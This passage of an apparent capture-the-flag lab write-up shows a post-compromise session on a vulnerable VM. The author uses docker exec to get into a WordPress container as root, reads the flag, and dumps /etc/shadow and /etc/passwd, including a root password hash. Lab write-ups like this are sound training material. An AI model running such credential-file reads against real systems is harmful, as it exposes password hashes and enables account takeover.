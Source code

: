 root@1afdd1f6b82c:/var/www/html# cat /etc/init.d/delete.sh 
#!/bin/bash

while [ 1 ]
do
    rm -rf /var/www/html/uploads/*.php
    sleep 300
done
{{< / highlight >}}

Again, I thought that we were probably intended to get a foothold through HTTP. Oh well.

{{< highlight markdown >}}
hummingbirdscyber@vulnvm:~$ docker exec -it experimental_wordpress_1 /bin/bash
root@1afdd1f6b82c:/var/www/html# cd /root/
root@1afdd1f6b82c:~# ls
flag
root@1afdd1f6b82c:~# cat flag 
Life consists of details..
{{< / highlight >}}

Poking around some more got me some more fortune cookie wisdom and a lot of nothing. I grabbed passwd and shadow for kicks.

{{< highlight markdown >}}
hummingbirdscyber@vulnvm:~$ docker exec -it experimental_wordpress_1 /bin/bash
root@1afdd1f6b82c:/var/www/html# cat /etc/shadow
root:$6$qoj6/JJi$FQe/BZlfZV9VX8m0i25Suih5vi1S//OVNpd.PvEVYcL1bWSrF3XTVTF91n60yUuUMUcP65EgT8HfjLyjGHova/:17951:0:99999:7:::
daemon:*:17931:0:99999:7:::
bin:*:17931:0:99999:7:::
sys:*:17931:0:99999:7:::
sync:*:17931:0:99999:7:::
games:*:17931:0:99999:7:::
man:*:17931:0:99999:7:::
lp:*:17931:0:99999:7:::
mail:*:17931:0:99999:7:::
news:*:17931:0:99999:7:::
uucp:*:17931:0:99999:7:::
proxy:*:17931:0:99999:7:::
www-data:*:17931:0:99999:7:::
backup:*:17931:0:99999:7:::
list:*:17931:0:99999:7:::
irc:*:17931:0:99999:7:::
gnats:*:17931:0:99999:7:::
nobody:*:17931:0:99999:7:::
_apt:*:17931:0:99999:7:::

root@1afdd1f6b82c:/var/www/html# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin